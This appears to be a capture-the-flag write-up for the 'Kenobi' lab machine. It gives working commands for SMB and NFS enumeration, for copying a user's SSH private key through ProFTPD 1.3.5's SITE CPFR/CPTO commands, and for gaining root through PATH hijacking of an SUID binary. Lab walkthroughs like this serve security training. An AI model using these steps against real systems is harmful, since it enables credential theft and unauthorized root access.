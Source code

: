 # Kenobi

## Enumeration

### nmap Scan

```bash
nmap -A -T4 -oN nmap/kenobi $TARGET
```

scan result is [here](nmap/kenobi)

### enumerate SMB share

with nmap

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $TARGET
```

with smb client

```bash
smbclient //$TARGET/anonymou
```

connect  to smb share

```bash
smbclient  //10.10.7.144/anonymous
```

download all the file in the share

```bash
smbget -R smb://$TAGET/anonymous
```

### RPCbind Enumeration

```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $TARGET
```

## Initial access

### Proftpd

 ProFTPD version 1.3.5 is vulnerable to

```bash
 searchsploit proftpd 1.3.5
```

#### Steal ssh key

Let exploit it : steal the ssh id_rsa key of kenobi

```bash
root@pluton:~# nc $TARGET 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.7.144]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful

```

#### mount /var

```bash
mkdir /mnt/kenobiNFS
mount machine_ip:/var /mnt/kenobiNFS
root@pluton:/var# ls -la
total 48
drwxr-xr-x 12 root root  4096 Jun  5 13:14 .
drwxr-xr-x 18 root root  4096 Jul 11 22:35 ..
drwxr-xr-x  2 root root  4096 Jul 21 18:51 backups
drwxr-xr-x 14 root root  4096 Jun  5 13:32 cache
drwxr-xr-x 67 root root  4096 Jun  7 16:13 lib
drwxrwsr-x  2 root staff 4096 Mar 30 21:22 local
lrwxrwxrwx  1 root root     9 Jun  5 13:14 lock -> /run/lock
drwxr-xr-x 18 root root  4096 Jul 21 18:24 log
drwxrwsr-x  2 root mail  4096 May  8 14:15 mail
drwxr-xr-x  2 root root  4096 May  8 14:15 opt
lrwxrwxrwx  1 root root     4 Jun  5 13:14 run -> /run
drwxr-xr-x  6 root root  4096 Jun  5 13:14 spool
drwxrwxrwt  7 root root  4096 Jul 21 18:39 tmp
drwxr-xr-x  3 root root  4096 Jun  5 13:14 www
```

### User shell

![shell](img/shell.png)

## Privilege Escalation

### Suid binnary

Search for Suid Binnary

```bash
find / -perm -u=s -type f 2>/dev/null
---
/usr/bin/menu
```

run string on the binnary

```bash
kenobi@kenobi:~$ strings /usr/bin/menu
...
** Enter your choice :
curl -I localhost
uname -r
...
```

call curl or uname without the full path

environement variable hijacking

```bash
kenobi@kenobi:/tmp$ echo "/bin/sh" > uname
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ chmod 777 uname 
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :2
# whoami
root
#
```

![root](img/root.png)